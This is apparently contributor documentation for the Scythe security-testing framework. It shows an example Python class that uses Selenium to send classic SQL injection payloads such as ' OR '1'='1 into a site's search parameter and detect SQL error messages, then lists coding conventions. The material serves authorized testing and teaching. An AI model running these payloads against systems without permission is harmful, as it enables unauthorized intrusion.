 ### Example TTP: SQL Injection

Here is an example of a simple SQL injection TTP:

```python
from selenium.webdriver.common.by import By
from selenium.webdriver.remote.webdriver import WebDriver
from scythe.core.ttp import TTP
from scythe.payloads.generators import StaticPayloadGenerator

class SQLInjectionTTP(TTP):
    def __init__(self, target_url: str):
        super().__init__(
            name="SQL Injection",
            description="Tests for basic SQL injection vulnerabilities."
        )
        self.target_url = target_url
        self.payload_generator = StaticPayloadGenerator([
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR 1=1 --",
        ])

    def get_payloads(self):
        yield from self.payload_generator()

    def execute_step(self, driver: WebDriver, payload: str):
        # Assumes a search input with the name 'q'
        driver.get(f"{self.target_url}?q={payload}")

    def verify_result(self, driver: WebDriver) -> bool:
        # A simple check for a generic SQL error message
        return "sql" in driver.page_source.lower() or \
               "syntax" in driver.page_source.lower()

```

## Coding Conventions

Please follow these coding conventions when contributing to the Scythe framework:

  * All code should be formatted using the Black code formatter.
  * Type hints should be used for all function signatures.
  * Docstrings should be included for all modules, classes, and functions.
  * Follow the PEP 8 style guide for Python code.

By following these guidelines, you can help ensure that the Scythe framework
remains a high-quality and maintainable project.
